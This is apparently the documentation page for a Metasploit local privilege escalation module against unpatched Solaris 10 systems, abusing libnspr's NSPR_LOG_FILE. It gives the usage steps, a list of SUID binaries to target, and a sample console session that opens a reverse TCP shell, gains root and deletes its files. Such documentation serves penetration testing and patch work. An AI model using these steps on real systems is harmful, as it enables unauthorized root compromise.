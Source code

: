 ## Description

  This module exploits an arbitrary file write vulnerability in the
  Netscape Portable Runtime library (libnspr) on unpatched Solaris systems
  prior to Solaris 10u4 which allows users to gain root privileges.

  libnspr versions prior to 4.6.3 allow users to specify a log file with
  the `NSPR_LOG_FILE` environment variable. The log file is created with
  the privileges of the running process, resulting in privilege escalation
  when used in combination with a SUID executable.

  This module writes a shared object to the trusted library directory
  `/usr/lib/secure` and runs the specified SUID binary with the shared
  object loaded using the `LD_LIBRARY_PATH` environment variable.


## Vulnerable Application

  This module has been tested successfully with [libnspr](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/NSPR)
  version 4.5.1 on Solaris 10u1 (01/06) (x86) and Solaris 10u2 (06/06) (x86).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/solaris/local/libnspr_nspr_log_file_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `run`
  6. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_PATH**

  Path to suid executable (must be linked to a vulnerable version of `libnspr4.so`)
  (default: `/usr/bin/cancel`)

  Some useful example SUID executables:

  * /usr/bin/cancel
  * /usr/bin/chkey
  * /usr/bin/lp
  * /usr/bin/lpset
  * /usr/bin/lpstat
  * /usr/lib/lp/bin/netpr
  * /usr/sbin/lpmove


## Scenarios

  ```
  msf5 > use exploit/solaris/local/libnspr_nspr_log_file_priv_esc 
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set session 1
  session => 1
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > set lhost 172.16.191.196
  lhost => 172.16.191.196
  msf5 exploit(solaris/local/libnspr_nspr_log_file_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.196:4444 
  [+] Created file /usr/lib/secure/libldap.so.5
  [*] Writing '/tmp/.8ENHI80b/.z6luu3Y1JC.c' (166 bytes) ...
  [*] Writing '/tmp/.8ENHI80b/.1hC6r9F' (175 bytes) ...
  [*] Executing payload...
  [+] Deleted /usr/lib/secure/libldap.so.5
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC.c
  [+] Deleted /tmp/.8ENHI80b/.z6luu3Y1JC
  [!] Tried to delete /usr/lib/secure/libldap.so.5, unknown result
  [+] Deleted /tmp/.8ENHI80b/.1hC6r9F
  [+] Deleted /tmp/.8ENHI80b

  id
  uid=0(root) gid=0(root)
  uname -a
  SunOS unknown 5.10 Generic_118844-26 i86pc i386 i86pc
  ```

